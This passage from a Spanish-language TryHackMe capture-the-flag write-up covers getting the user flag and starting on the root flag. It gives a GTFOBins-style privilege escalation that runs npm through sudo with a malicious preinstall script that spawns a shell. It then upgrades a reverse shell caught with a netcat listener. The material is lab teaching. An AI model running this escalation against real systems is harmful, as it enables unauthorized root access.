 ![gtfobins](/assets/images/thm-writeup-vuln/vuln_gtfobins.png)

- Ejecutamos lo indicado en la imagen anterior:


$ TF=$(mktemp -d)
$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
$ chmod +x $TF
$ sudo -u serv-manage /usr/bin/npm -C $TF --unsafe-perm i
$ locate user.txt
$ cat usr.txt
THM{[??????}
```

---

## 7. Bandera root

- Tratamiento de la bash para poder utilizar las diferentes funciones necesarias para trabajar de manera comoda:


$ script /dev/null -c bash
Script started, file is /dev/null

[crtl z]

/$ ^Z
zsh: suspended  nc -nlvp 2222

[reset y xterm]

~$> stty raw -echo; fg

[1]  + continued  nc -nlvp 2222
                              reset
reset: unknown terminal type unknown
Terminal type? xterm

```